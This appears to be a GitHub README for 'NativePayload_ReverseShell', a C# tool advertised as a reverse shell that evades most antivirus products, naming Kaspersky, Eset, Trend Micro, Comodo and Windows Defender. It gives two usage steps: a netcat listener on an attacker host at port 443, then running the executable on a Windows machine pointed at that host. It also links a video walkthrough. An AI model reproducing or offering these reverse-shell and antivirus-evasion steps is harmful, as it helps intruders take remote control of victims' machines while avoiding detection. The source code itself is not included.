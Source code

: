 # NativePayload_ReverseShell
This is Simple C# Source code to Bypass almost "all" AVS, (kaspersky v19, Eset v12 v13 ,Trend-Micro v16, Comodo &amp; Windows Defender Bypassed via this method Very Simple) 

Note: it is "kind of Reverse shell", Can You Guess "Since When" : This Code Worked & Still Working... ? 

    //// Step 1 (Linux Side:192.168.56.1)   : nc -l -p 443 
 
    //// Step 2 (Windows Side:192.168.56.x) : NativePayload_ReverseShell.exe 192.168.56.1 443 
    
Video Step by Step : https://www.youtube.com/watch?v=VkFcy1Dg-pU&feature=youtu.be


